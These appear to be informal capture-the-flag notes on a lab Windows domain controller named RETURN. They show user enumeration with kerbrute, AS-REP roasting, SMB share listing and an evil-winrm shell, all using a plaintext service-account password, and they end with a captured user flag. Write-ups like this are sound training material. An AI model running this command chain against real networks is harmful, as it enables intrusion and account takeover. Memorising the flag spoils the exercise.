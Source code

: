
```
enum4linux -a 10.10.11.108
```

```
Domain Name: RETURN               
Domain Sid: S-1-5-21-3750359090-2939318659-876128439
```


Will run the above command again and see if we can have any change in the information
```
enum4linux -a 10.10.11.108 -u svc-printer -p '1edFg43012!!'
```
no change in the information i was just trying so we have to wait for the nmap so will idea which port and services to target.

Let's see the valid users
```
kerbrute userenum -d RETURN --dc 10.10.11.108 userlist.txt -t 100
```
![[Pasted image 20240505193717.png]]

```
administrator@RETURN
Printer@RETURN
svc-printer@RETURN
```

```
administrator
Printer
svc-printer
```


```
GetNPUsers.py RETURN/ -usersfile valid_user.txt -format john -dc-ip 10.10.11.108
```
![[Pasted image 20240505193906.png]]

```
crackmapexec smb 10.10.11.108 -u svc-printer -p 1edFg43012!! --shares
```
![[Pasted image 20240505193429.png]]

Let's Run evil-winrm
```
evil-winrm -u svc-printer -p '1edFg43012!!' -i 10.10.11.108
```
![[Pasted image 20240505193628.png]]
So it's always worth if port 5985 or 5986 is open

User Flag
```
27cff978cabf5d337eda3cf7dc3889e7
```

